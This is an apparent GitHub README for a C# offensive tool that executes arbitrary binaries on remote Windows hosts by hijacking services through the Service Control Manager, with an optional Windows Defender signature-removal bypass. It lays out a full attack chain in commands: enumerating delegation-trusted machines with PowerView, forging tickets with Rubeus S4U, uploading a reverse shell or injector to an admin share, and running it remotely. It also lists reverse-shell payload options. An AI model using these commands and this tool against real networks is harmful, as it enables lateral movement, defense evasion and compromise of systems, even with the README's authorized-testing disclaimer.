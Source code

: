 # FilelessLateralMovement

FilelessLateralMovement is a C# tool designed to execute arbitrary binaries on remote Windows hosts by abusing the Service Control Manager (SCM) and existing services. It supports an optional Defender bypass step and is particularly useful in post-exploitation scenarios, such as after exploiting Kerberos Constrained Delegation (KCD).

## 🚀 Features

- Remote execution via SCM  
- Optional Windows Defender signature removal  
- Restores original service configuration after execution  
- Compatible with Kerberos Constrained Delegation (`S4U2Self` + `S4U2Proxy`)  
- Written in pure C#, no PowerShell required

## 💥 Usage

```
FilelessLateralMovement.exe [TargetHost] [ServiceName] [BinaryToRun] [--skip-defender (optional)]
```

### 🔧 Arguments

| Argument         | Description                                          |
|------------------|-----------------------------------------------------|
| TargetHost      | Hostname or IP address of the remote system         |
| ServiceName     | Short name of the target service (not display name) |
| BinaryToRun     | Full path or command to execute on the remote system |
| --skip-defender | *(Optional)* Skip Windows Defender bypass step      |

### ⚡ Examples

**With Defender bypass**
```
FilelessLateralMovement.exe appsrv01 SensorService "C:\Windows\Temp\payload.exe"
```

**Without Defender bypass**
```
FilelessLateralMovement.exe appsrv01 SensorService "C:\Windows\Temp\payload.exe" --skip-defender
```

## 🔥 Example Attack Chain (Constrained Delegation Exploitation)

### 🕵️ Step 1: Identify vulnerable computers

Look for machines/accounts with the `TRUSTED_TO_AUTH_FOR_DELEGATION` flag using PowerView:
```
Get-DomainComputer -TrustedToAuth
```

Example output:
```
CN=WEB01,OU=EvilServers,OU=EvilComputers,DC=evil,DC=com
msds-allowedtodelegateto : {cifs/file01.evil.com, cifs/FILE01}
serviceprincipalname : {WSMAN/web01, TERMSRV/WEB01, ...}
useraccountcontrol : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION
```

---

### 🎭 Step 2: Abuse constrained delegation with Rubeus

```
Rubeus.exe s4u /user:WEB01$ /rc4:<HASH> /impersonateuser:administrator /msdsspn:cifs/file01.evil.com /ptt
```

---

### 💣 Step 3: Check access & upload payload

Check that the ticket works:
```
ls \\file01\c$
```

Upload the reverse shell or injector binary:
```
copy C:\Temp\inject.exe \\file01\c$\Windows\Temp\
```

---

### ⚔️ Step 4: Execute payload remotely

Run the payload on the target:
```
FilelessLateralMovement.exe file01.evil.com SensorService "C:\Windows\Temp\inject.exe"
```

---

## ✅ Summary of payload types

- Reverse shells (e.g., msfvenom, nc64.exe, custom revshells)  
- Process injection binaries you developed  
- LOLBins (e.g., `cmd.exe /c whoami`)

---

## ⚠️ Disclaimer

This tool is intended **for educational and authorized security testing purposes only**. Do not use it against systems you do not have explicit permission to test.


